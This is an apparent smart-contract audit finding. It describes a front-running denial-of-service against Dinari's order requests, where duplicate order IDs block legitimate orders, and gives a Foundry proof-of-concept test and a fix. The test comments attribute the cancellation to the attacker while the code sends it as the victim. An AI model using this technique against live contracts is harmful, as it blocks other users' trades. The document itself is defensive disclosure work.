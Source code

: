 dirk_y

high

# Malicious user can perform DOS attack by frontrunning to block all order requests

## Summary
When requesting an order, there is check to see whether or not an order already exists based on the order hash. Based on how the order hash is generated, a malicious user can frontrun any order requests from other users to cause the legitimate orders to fail. The malicious user can do this at no cost (besides gas) since they can immediately cancel the order before it is fulfilled. This is effectively a DOS attack on Dinari.

## Vulnerability Detail
Both buy and sell orders are requested by calling `requestOrder`. The order id for the given order is constructed from the `OrderRequest` object and the provided salt by calling `getOrderIdFromOrderRequest`:

```solidity
function getOrderIdFromOrderRequest(OrderRequest memory orderRequest, bytes32 salt) public pure returns (bytes32) {
        return keccak256(
            abi.encode(
                ORDERREQUEST_TYPE_HASH,
                salt,
                orderRequest.recipient,
                orderRequest.assetToken,
                orderRequest.paymentToken,
                orderRequest.quantityIn
            )
        );
    }
```

The interesting point here is that the order id hash construction doesn't include the address of the message sender. As a result, multiple users could create the same order hash. In most cases this wouldn't happen because a normal user would not want to specify the recipient of an order request as another address that they do not own. However, because an order can be cancelled before it is filled, a malicious user can block an order from another user by requesting the same order first (thereby preventing the real order from being requested) and immediately cancel the order to prevent being charged for it. The malicious user can do this perpetually to prevent any legitimate orders from being requested, effectively rendering Dinari useless.

Below is a change to the existing test suite that demonstrates this vulnerability. It can be executed with `forge test -vvv --match-path test/BuyOrderIssuer.t.sol`:

```diff
diff --git a/sbt-contracts/test/BuyOrderIssuer.t.sol b/sbt-contracts/test/BuyOrderIssuer.t.sol
index f66a322..c9180f8 100644
--- a/sbt-contracts/test/BuyOrderIssuer.t.sol
+++ b/sbt-contracts/test/BuyOrderIssuer.t.sol
@@ -180,6 +180,74 @@ contract BuyOrderIssuerTest is Test {
         assertEq(issuer.ordersPaused(), pause);
     }
 
+    function testDOS() public {
+        // Create a new malicious user
+        uint256 user2PrivateKey = 0x01;
+        address user2 = vm.addr(user2PrivateKey);
+
+        // Setup order quantity
+        (uint256 baseFee, ) = issuer.getFeesForOrder(address(paymentToken), 0);
+        uint256 quantityIn = baseFee * 20; // Create an arbitrary input of 20x flat fee
+
+        OrderProcessor.OrderRequest memory order = OrderProcessor.OrderRequest({
+            recipient: user,
+            assetToken: address(token),
+            paymentToken: address(paymentToken),
+            quantityIn: quantityIn,
+            price: 0
+        });
+        bytes32 orderId = issuer.getOrderIdFromOrderRequest(order, salt);
+
+        (uint256 flatFee, uint256 percentageFee) = issuer.getFeesForOrder(order.paymentToken, order.quantityIn);
+        
+        uint256 fees = flatFee + percentageFee;
+        IOrderBridge.Order memory bridgeOrderData = IOrderBridge.Order({
+            recipient: order.recipient,
+            assetToken: order.assetToken,
+            paymentToken: order.paymentToken,
+            sell: false,
+            orderType: IOrderBridge.OrderType.MARKET,
+            assetTokenQuantity: 0,
+            paymentTokenQuantity: order.quantityIn,
+            price: 0,
+            tif: IOrderBridge.TIF.GTC,
+            fee: fees
+        });
+
+        // Mint payment token for legitimate user and malicious user
+        paymentToken.mint(user, quantityIn);
+        vm.prank(user);
+        paymentToken.increaseAllowance(address(issuer), quantityIn);
+        paymentToken.mint(user2, quantityIn);
+        vm.prank(user2);
+        paymentToken.increaseAllowance(address(issuer), quantityIn);
+
+        uint256 userBalanceBefore = paymentToken.balanceOf(user2);
+
+        // Now user2 frontruns user with the same order. The legitimate order now fails.
+        vm.prank(user2);
+        issuer.requestOrder(order, salt);
+        vm.prank(user);
+        vm.expectRevert(OrderProcessor.DuplicateOrder.selector);
+        issuer.requestOrder(order, salt);
+
+        // The malicious user2 can now cancel the order to avoid paying for the order when it is filled
+        emit CancelRequested(orderId, user);
+        vm.prank(user);
+        issuer.requestCancel(order, salt);
+
+        // The assumption is that orders will be cancelled before they are fulfilled, because otherwise that
+        // defeats the point of the cancellation logic
+        emit OrderCancelled(orderId, user, "");
+        vm.prank(operator);
+        issuer.cancelOrder(order, salt, "");
+
+        uint256 userBalanceAfter = paymentToken.balanceOf(user2);
+
+        // This attack hasn't cost the malicious user anything
+        assertEq(userBalanceBefore, userBalanceAfter);
+    }
+
     function testRequestOrder(uint256 quantityIn) public {
         OrderProcessor.OrderRequest memory order = OrderProcessor.OrderRequest({
             recipient: user,

```

## Impact
A malicious user can block all order requests from legitimate users. This is effectively a DOS attack on Dinari.

## Code Snippet
https://github.com/sherlock-audit/2023-06-dinari/blob/main/sbt-contracts/src/issuer/OrderProcessor.sol#L205-L216
https://github.com/sherlock-audit/2023-06-dinari/blob/main/sbt-contracts/src/issuer/OrderProcessor.sol#L250-L252

## Tool used
Manual Review

## Recommendation
In order to ensure unique order ids, I would suggest the following change:

```diff
diff --git a/sbt-contracts/src/issuer/OrderProcessor.sol b/sbt-contracts/src/issuer/OrderProcessor.sol
index 633385c..2afbbfb 100644
--- a/sbt-contracts/src/issuer/OrderProcessor.sol
+++ b/sbt-contracts/src/issuer/OrderProcessor.sol
@@ -93,7 +93,7 @@ abstract contract OrderProcessor is
 
     /// @dev Used to create EIP-712 compliant hashes as order IDs from order requests and salts
     bytes32 private constant ORDERREQUEST_TYPE_HASH = keccak256(
-        "OrderRequest(bytes32 salt,address recipient,address assetToken,address paymentToken,uint256 quantityIn"
+        "OrderRequest(bytes32 salt,address requester,address recipient,address assetToken,address paymentToken,uint256 quantityIn"
     );
 
     /// @notice Admin role for managing treasury, fees, and paused state
@@ -202,11 +202,12 @@ abstract contract OrderProcessor is
     /// @param orderRequest Order request to get ID for
     /// @param salt Salt used to generate unique order ID
     /// @dev Compliant with EIP-712 for convenient offchain computation
-    function getOrderIdFromOrderRequest(OrderRequest memory orderRequest, bytes32 salt) public pure returns (bytes32) {
+    function getOrderIdFromOrderRequest(OrderRequest memory orderRequest, bytes32 salt, address requester) public pure returns (bytes32) {
         return keccak256(
             abi.encode(
                 ORDERREQUEST_TYPE_HASH,
                 salt,
+                requester,
                 orderRequest.recipient,
                 orderRequest.assetToken,
                 orderRequest.paymentToken,
```

Of course, any calls to `getOrderIdFromOrderRequest` should be updated to provide the proper requester address as an argument, and this variable might also need to be emitted in relevant events to be used by the operator to complete order cancellations etc.